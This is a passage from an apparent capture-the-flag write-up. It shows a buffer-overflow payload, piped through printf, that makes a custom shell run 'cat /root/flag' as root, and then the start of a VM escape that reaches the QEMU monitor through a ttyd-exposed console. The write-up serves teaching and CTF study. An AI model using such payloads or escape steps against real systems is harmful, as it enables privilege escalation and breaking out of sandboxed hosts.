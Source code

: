 Now we can just run it on the vm and...

```sh
$ printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xffAA
AAAAAAAAAAAAAT\x87^]U\x00\x00\x00\n\x04cat /root/flag' | penguinsh
PenguinSH> AAAAAAAAAT^]U
Command not found :(
PenguinSH> 
Bye bye!
LDBARI{alw4ys_dr0p_y0ur_pr1vs}
```
the command `cat /root/flag` gets executed as root and prints the flag!

# VM Escape
In this challenge we need to break free from the virtual machine confines to unveil the hidden flag in the infrastructure...\
The flag can be found in `/app/flag` inside the Docker container that spawns the VMs.

Paying close attention to the title of the web page, we can notice that `ttyd` (the program used to share a terminal session over http), is giving us full control of the `qemu-system-aarch64` command.

Qemu is started with the `-nographic` flag, which give us access to the _qemu console_
>       -nographic
>              Normally, if QEMU is compiled with graphical window
>              support, it displays output such as guest graphics,
>              guest console, and the QEMU monitor  in  a  window.
>              With this option, you can totally disable graphical
>              output so that QEMU is a simple command line appli‐
>              cation.   The emulated serial port is redirected on
>              the console and  muxed  with  the  monitor  (unless
>              redirected  elsewhere  explicitly).  Therefore, you
>              can still use QEMU to debug a Linux kernel  with  a
>              serial  console.   Use  C-a h for help on switching
>              between the console and monitor.

Let's try pressing Control+A and then h as the qemu manual says...

```
C-a h    print this help
C-a x    exit emulator
C-a s    save disk data back to file (if -snapshot)
C-a t    toggle console timestamps
C-a b    send break (magic sysrq)
C-a c    switch between console and monitor
C-a C-a  sends C-a
```

There we go, Control+A and then c let's us access the console, let's try it
```
QEMU 7.2.5 monitor - type 'help' for more information
(qemu) 
```
